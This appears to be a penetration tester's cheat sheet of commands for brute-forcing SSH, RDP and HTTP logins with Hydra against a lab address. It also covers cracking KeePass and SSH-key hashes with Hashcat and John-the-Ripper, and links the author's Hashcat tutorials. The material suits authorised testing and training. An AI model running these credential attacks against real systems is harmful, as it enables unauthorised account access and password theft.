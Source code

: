 ## Commands/Tools to attack network services

SSH wordlist attack with Hydra  
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray attack with Hydra  
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack with Hydra  
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo sh -c 'cat /home/jake/myrules.rule >> /etc/john/john.conf'
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
```bash
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```



